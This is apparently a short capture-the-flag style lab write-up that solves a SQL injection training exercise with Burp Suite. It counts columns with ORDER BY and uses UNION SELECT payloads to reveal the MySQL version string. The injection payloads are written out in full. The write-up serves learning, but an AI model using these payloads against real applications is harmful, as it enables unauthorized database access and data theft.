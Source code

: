This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

**Goal:** display the database version string. <br>

**Solution:**<br>
Using burpsuite for this; 
- Check number of columns using query: ``order by num--``. This produced an error since commenting using ``-`` is invalid for MySQL so we use ``' order by num#`` Which gives response.
- Increase number until we get **__Internal Server Error__**, which we get for ``order by 3#``.
- Now we check whats in the columns using union query, 
``'union select NULL, 'a'#`` gives response 
``' union select @@version,NULL#`` it produces required output.
![alt text](/images/lab4databaseversion.png)